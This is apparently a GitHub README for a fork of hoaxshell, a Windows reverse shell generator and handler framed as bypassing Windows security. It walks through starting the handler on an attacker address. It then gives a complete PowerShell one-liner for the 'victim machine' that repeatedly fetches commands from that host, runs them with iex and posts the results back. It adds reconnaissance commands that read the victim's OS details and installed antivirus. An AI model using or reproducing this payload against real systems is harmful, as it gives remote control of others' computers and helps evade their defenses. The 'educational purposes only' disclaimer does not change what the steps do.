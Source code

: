 <h1 style="font-size:10vw" align="left">Bypassing an Active Windows Security</h1>

[![Python](https://img.shields.io/badge/Python-%E2%89%A5%203.11-yellow.svg)](https://www.python.org/) 
<img src="https://img.shields.io/badge/PowerShell-%E2%89%A5%20v5.1-blue">
<img src="https://img.shields.io/badge/Developed%20on-kali%20linux-blueviolet">
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">

******
⚠️ *For educational and authorized security research purposes only*


## Original Exploit Authors
very grateful to the original author [t3l3machus](https://github.com/t3l3machus)


## Description
hoaxshell is a windows reverse shell payload generator and handler that abuses the http(s) protocol to establish a beacon-like reverse shell, based on the following concept:  

![image](https://user-images.githubusercontent.com/75489922/197529603-1c9238ea-af14-41f7-8834-dd37ad77e809.png)

This c2 concept (which could be implemented by using protocols other than http or pre-installed exes) can be used to establish sessions that promote the illusion of having a shell, but are far from an actual pty.


## Demo
![bypass](https://github.com/asepsaepdin/hoaxshell/assets/122620685/a00ade63-5e5d-4663-80fd-b7e9b0d4c755)


## Step Guides
1. First, install all the requirements
```
sudo pip3 install -r requirements.txt
```
2. Make the script executable
```
chmod +x hoaxshell.py
```
3. Run the script and specify  the **-s 192.168.25.72** with the perpetrator's address
```
./hoaxshell.py -s 192.168.25.72 -r -H "Authorization"
```
4. Run the script in powershell on the victim machine with some obfuscation technique
```
$xxxxx='None';$s='192.168.25.72:8080';$i='7f588da6-a3488a4c-7fa96807';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/7f588da6 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/a3488a4c -Headers @{"Authorization"=$i}).Content;if ($c -ne $xxxxx) {$r=iex $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/7fa96807 -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8} 
```
6. Check the operating system information used by victim machine
```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```
5. And check the antivirus product used by victim machine
```
Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct
```

## Exploit Requirements
- Python 3.11


## Credits
- https://github.com/t3l3machus/hoaxshell#AV-Bypass-PoCs
- https://www.youtube.com/watch?v=3HddKylkRzM
- https://www.youtube.com/watch?v=fgSARG82TJY
- https://www.revshells.com/
